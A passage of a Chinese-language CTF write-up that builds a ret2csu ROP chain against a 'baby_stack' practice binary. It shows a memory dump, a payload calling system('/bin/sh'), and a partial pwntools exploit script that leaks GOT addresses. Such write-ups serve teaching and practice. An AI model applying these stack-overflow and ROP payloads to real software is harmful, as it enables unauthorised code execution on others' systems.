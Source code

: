 最后我们构造`payload3`,调用system()函数执行“/bin/sh”。注意，`system()的地址`保存在了`.bss段首地址`+0x100上，`“/bin/sh”的地址`保存在了`.bss段首地址+0x100+8`字节上。因为如果直接为bss段首地址会覆盖掉stdout，程序输出会出错。

```
0x601080 <stdout@@GLIBC_2.2.5>:	0x00007fd7fe07a390	0x0068732f6e69622f
0x601090 <stdin@@GLIBC_2.2.5>:	0x00007fd7fe3f98e0	0x0000000000000000
0x6010a0 <stderr@@GLIBC_2.2.5>:	0x00007fd7fe3fa540	0x0000000000000000
```

payload3：

```python
#rdi=edi=r15, rsi=r14, rdx=r13
#system(rdi=bss_addr+8="/bin/sh\0")
payload3 = "\x00"*40
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload3 += p64(0x4008FA) + p64(0) + p64(0) + p64(1) +p64(bss_addr+0x100) + p64(0) + p64(0) + p64(bss_addr+0x100+8) + p64(0x4008E0)
payload3 += "\x00"*56
payload3 += p64(main_addr)
```

最终exp如下：

```python
from pwn import *
#context.log_level = 'debug'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
baby_stack = ELF('./baby_stack')
sh = process('./baby_stack')
print "\n#####################info#########################\n"
write_got = baby_stack.got['write']
print "write_got: " + hex(write_got)
read_got = baby_stack.got['read']
print "read_got: " + hex(read_got)
write_symbols = baby_stack.symbols['fctf_write']
print "write_symbols: " + hex(write_got)
read_symbols = baby_stack.symbols['fctf_read']
print "read_symbols: " + hex(read_got)
main_addr = baby_stack.symbols['main']
print "main_addr " + hex(main_addr)
bss_base = baby_stack.bss()+0x100
print "bss_base " + hex(bss_base)
print "\n#################################################\n"
csu_front_addr = 0x00000000004008E0
csu_end_addr = 0x00000000004008FA
fakeebp = 'b' * 8 # 8byte ebp
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = '\x00' * 40
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += '\x00' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)
sh.recvuntil('SMASH IT!\n')
print "\n#############sending payload1#############\n"
csu(0, 1, write_got, 8, write_got, 1, main_addr)
```